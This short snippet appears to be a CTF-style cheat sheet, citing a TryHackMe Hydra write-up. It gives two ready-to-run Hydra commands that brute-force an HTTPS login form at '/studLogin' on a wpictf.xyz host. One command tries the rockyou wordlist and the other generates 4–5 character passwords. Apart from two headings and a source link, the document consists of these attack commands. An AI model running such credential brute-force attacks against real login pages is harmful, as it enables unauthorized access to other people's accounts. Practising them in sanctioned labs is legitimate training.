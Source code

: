 ### HTML form-data bruteforce & wordlist attack
src - https://medium.com/liveonnetwork/hydra-tryhackme-f3efb6658ac0
#### Wordlist
```bash
hydra -P rockyou.txt -I -l example_user  wpiadmin.wpictf.xyz  https-post-form "/studLogin:inputUsername=example_user&inputPassword=^PASS^:Invalid username/password" 
```

#### Bruteforce
```bash
hydra -x 4:5:Aa1 -I -l example_user  wpiadmin.wpictf.xyz  https-post-form "/studLogin:inputUsername=example_user&inputPassword=^PASS^:Invalid username/password" 
```
